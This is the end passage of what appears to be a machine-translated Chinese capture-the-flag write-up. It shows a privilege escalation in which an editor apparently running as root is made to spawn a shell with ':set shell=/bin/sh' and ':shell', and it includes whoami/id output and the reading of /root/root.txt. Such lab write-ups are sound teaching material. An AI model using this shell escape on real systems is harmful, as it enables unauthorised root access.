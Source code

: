 ![](img/e471c0c4a3d10aaa109fe601ba9f946b.png)

它会打开这样一个文件。现在只需运行这些命令。无论您键入什么，都应该显示在底部:

```
:set shell=/bin/sh
:shell
```

输出:

![](img/439eb13103738dad16484812eeeefb33.png)

类型:

```
**#** whoami
root
**#** id
uid=0(root) gid=0(root) groups=0(root)
```

我们现在是根用户了！让我们搜索根标志:

```
**#** find / -name root.txt 2>/dev/null
/root/root.txt
**#** cat /root/root.txt
```

我们有根旗！

这就是本文的全部内容。我希望你喜欢它。如果你有，那么请鼓掌并分享给所有其他可能发现这有用的人。感谢阅读！